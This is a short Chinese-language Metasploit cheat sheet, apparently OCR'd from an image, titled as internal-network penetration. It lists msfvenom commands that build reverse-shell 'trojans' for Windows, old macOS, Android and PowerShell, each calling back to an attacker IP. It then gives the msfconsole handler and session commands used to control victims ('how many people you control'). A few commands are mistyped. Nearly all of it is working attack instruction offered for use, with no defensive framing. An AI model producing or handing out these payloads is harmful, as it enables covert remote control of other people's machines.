 ------

### msf内网渗透

生成exe木马

生成32位系统的木马

msfvenom -a x86 -platform windows -p windowsmeterpreter/reverse_tcp lhost=[自己ip] lport=4444 -f exe > msf.exe

生成64位木马

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.31.110 lport=4444 -f exe -o msf.exe

------

### 在msf里建立木马的控制端

msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

\#如果生成64位木马 set payload windows/x64/meterpreter/reverse_tcp

set lhost [自己的ip]

set lport 4444

exploit 进入监听状态

此时如果木马启动，就会连接我

background 暂时不操作，把木马放到后台

sessions 查看控制了多少人

sessions -i [编号] 连接编号位几的木马

back 后退一个

exit 彻底退出

### 其他木马的命令：

生成mac（旧版本苹果电脑）木马

msfvenom -a x86 –platform osx -p osx/x86/shell_reverse_tcp lhost=[自己ip] lport=4444 -f macho -p msf.macho

生成android（旧版本安卓，需要数字签名）木马

msfvenom -a x86 –platform Android -p android/meterpreter/reverse_tcp lhost=[自己ip] lport=4444 -f apk -o msf.apk

生成powershell木马

msfvenom -a x86 –platform windows -p windows/powershell_reverse_tcp lhost=[自己ip] lport=4444 -e cmd/powershell_base64 -i 3 -f raw -o msf.ps1

